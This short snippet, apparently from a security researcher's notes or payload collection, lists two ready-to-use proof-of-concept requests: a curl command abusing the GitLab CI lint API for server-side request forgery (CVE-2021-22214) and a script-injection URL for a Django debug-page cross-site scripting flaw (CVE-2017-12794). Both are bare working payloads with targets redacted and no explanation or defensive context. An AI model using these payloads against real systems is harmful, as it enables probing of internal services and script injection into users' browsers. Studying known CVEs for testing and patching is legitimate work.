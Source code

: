 Gitlab SSRF (CVE-2021-22214)

```bash
curl -s --show-error -H 'Content-Type: application/json' --data '{ "include_merged_yaml": true, "content": "include:\n remote: http://x.x.x.x/api/v1/targets?test.yml"}' https://REDACTED/api/v4/ci/lint -k
```

Django debug page XSS (CVE-2017-12794).

```bash
http://redacted/create_user/?username=<script>alert(/XSS/)</script>
```